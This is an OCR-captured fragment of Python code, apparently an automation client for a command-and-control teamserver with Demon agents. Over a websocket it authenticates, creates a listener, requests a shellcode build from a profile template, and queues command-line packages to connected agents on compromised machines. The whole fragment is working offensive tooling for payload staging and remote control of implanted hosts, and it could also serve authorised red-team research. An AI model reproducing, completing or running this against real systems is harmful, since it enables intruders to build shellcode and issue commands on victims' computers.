 ```python
        profile_json = ""
        seen_agents = set()
        baseline_agents = set()
        agent_id = None
        workflow = []
        current_step = None
        workflow_done = False

        async def maybe_queue_next():
            nonlocal current_step, workflow_done
            while agent_id and not current_step and workflow:
                current_step = workflow.pop(0)
                package = current_step["payload"]
                package["Head"]["Time"] = timestamp()
                command_line = package["Body"]["Info"].get("CommandLine", "")
                print(f"[>] queued {current_step['name']}: {command_line}")
                await ws.send(json.dumps(package))
                if not current_step.get("expect_output", True):
                    print(f"[!] {current_step['name']} does not return output; continuing")
                    current_step = None
                    continue
            if agent_id and not workflow and current_step is None and not workflow_done:
                workflow_done = True
                print("[*] command workflow finished")

        while True:
            message = json.loads(await ws.recv())
            head = message.get("Head", {})
            body = message.get("Body", {})
            event = head.get("Event")
            subevent = body.get("SubEvent")
            info = body.get("Info", {})

            if event == INIT_TYPE:
                if subevent == INIT_SUCCESS:
                    print(f"[+] authenticated as {USERNAME}")
                    if not listener_sent:
                        pkg = listener_payload()
                        pkg["Head"]["Time"] = timestamp()
                        await ws.send(json.dumps(pkg))
                        listener_sent = True
                        print(f"[>] requested listener {LISTENER_NAME}")
                elif subevent == INIT_ERROR:
                    print(f"[-] authentication failed: {info.get('Message', 'unknown error')}")
                    return
                elif subevent == INIT_PROFILE:
                    profile_json = info.get("Demon", "")
                    print(f"[+] received profile template ({len(profile_json)} bytes)")
                    if listener_ready and not payload_requested:
                        pkg = gate_payload(profile_json)
                        pkg["Head"]["Time"] = timestamp()
                        await ws.send(json.dumps(pkg))
                        payload_requested = True
                        print("[>] requested shellcode build")
            elif event == LISTENER_TYPE:
                name = info.get("Name") or info.get("ListenerName")
                status = info.get("Status", "")
                if subevent == LISTENER_ADD and name == LISTENER_NAME:
                    print(f"[+] listener {name} -> {status}")
                    if status.lower() == "online":
                        listener_ready = True
                        if profile_json and not payload_requested:
                            pkg = gate_payload(profile_json)
```